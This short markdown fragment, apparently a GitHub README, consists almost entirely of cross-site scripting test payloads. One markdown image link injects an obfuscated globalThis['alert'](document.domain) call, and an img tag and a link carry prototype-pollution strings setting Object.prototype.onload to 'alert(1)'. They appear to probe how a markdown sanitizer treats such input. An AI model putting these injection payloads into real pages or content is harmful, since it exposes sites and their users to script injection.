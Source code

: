 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src="https://github.com/falx00h/falx00h/blob/main/README.md?Object.prototype.onload = 'alert(1)';">
<a href="https://github.com/falx00h/falx00h/blob/main/README.md?Object.prototype.onload = 'alert(1)';">aaa</a>
